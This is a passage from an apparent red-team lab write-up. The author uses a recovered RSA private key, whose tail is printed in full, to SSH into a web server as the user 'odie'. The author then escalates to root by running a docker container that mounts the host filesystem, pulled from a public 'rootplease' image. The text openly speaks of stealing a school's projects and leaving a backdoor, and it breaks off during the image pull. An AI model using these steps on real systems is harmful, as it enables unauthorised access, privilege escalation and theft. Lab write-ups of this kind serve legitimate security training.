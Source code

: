 ```bash
/Dl6bGypH1uI7lo4/gwcmK220260JTCBa4zp3c930cw9ht4DcCcgY67no24BX4zi
SA7ZSNnOJRAMbNZU4369LxQOBYH66g0ndWLXz3FVNsch5yiMEFtcbW2jAvcCad01
+clQiBWBAoGBAOxF8Nl5OjZNsp0zRSj/WTxKur6uTQZkxSd2mA98wMhWwn0gdEtj
C2AIwEni9Lix/r0wIHc96QCScRIcn4X0+D4e9nLbdRWKAKcR3zNncPIcdR6ia8Hp
hNxowkB6E+nWqs86zq+dJvpuSCK3mi6MZAv42UtzyukPfrTieyKrlrDDAoGBAOci
nKcTLpLH6U4whb6/qOXJxvPhbcGSY67dswqrZC/iOVimHOEnho+L5zfEHsA1///i
FrZSnvhDSmzrTx2xGhejzNh7EM2fTNGgtbbTscdAfzUHEkTDpHntW0WomPQ3knLF
4kRCXQp1zRrTkoWQUrgJnNKEOq95ebFq/MBU7K0hAoGBALOKvmfz2Al153nPgQmT
aLMJMnk9qGhoYO0JEKoMKc7TJv3AkL7Mp9M1MzGyVjaXg7UuAi26jPmTTnrt50b7
DTzfeHV1ULaqZK6QRSUhwNEqUNGTqQD0u7JlpN8sJT+3kZrh3DfU2s7IyOYg0Pf4
VPpIAo90kUejL6yywdFpxJvTAoGASQL39RbsGVWo7xgIx46Hbb7lZ9iH8SOq9Wv2
yKIHTdDqSISAjucLbIDHEyiShikIqu3iOsmyib3H3swd+8Ub9ue5J5EIZ8uwWm+n
tw78E3LePAP1017xr8o4kLKHTm3XhwXXSbSk60728Uhv+lzypEv1C9LVLuTyegbP
vHmXIcECgYAE5+xbrXMXnRsxmQkKc4QB5eMZyvPHkq4CMNLrgwpr3b/MSGtZkwgS
pNyEYy/Ya2utPWzRFUPUOkDjMi4vYNvbJ8qztKTVRb6Nkj0b5ENLukBJ7fPIoA+R
Aw2IgvxFUXiq6D6Mw978b594/5tOmlwCR+JKK0pvYDeLLwg4kavcqA==
-----END RSA PRIVATE KEY-----
```

Yay! I'll be able to get a real shell!

### It's over...

```bash
host $ chmod 600 odie_priv.key 
host $ ssh -i odie_priv.key odie@192.168.122.147
odie@webserver $ id
uid=1000(odie) gid=1000(odie) groupes=1000(odie),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

Yeeeeeeeees! Here I am with the identity of __Odie__ on his system, I will be able to steal all ENSIBS projects! I could stop the attack here...

<center>
![](https://media.giphy.com/media/YTbZzCkRQCEJa/giphy.gif)
</center>

... Or not. In case of real red team operation, you can't surrender before being __root__ and remove all traces left behind. And when you're __root__ you're able to give a little present: a backdoor :D

Here, I executed the `id` command to make sure of my rights. I saw something really nice: the __odie__ user is in the `docker` group. Odie probably made this because he is too lazy to do `sudo` before doing some docker stuff. But because of this, I'm able to get __root__ access.

Indeed, `docker` daemon is going to access to the __root__ user, but also to all users in `docker` group. In this way, it's possible to get a __root__ shell.

```bash
odie@webserver $ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
hello-world         latest              4ab4c602aa5e        3 months ago        1.84kB

odie@webserver $ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Downloading [==========================================>        ]  56.22de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

```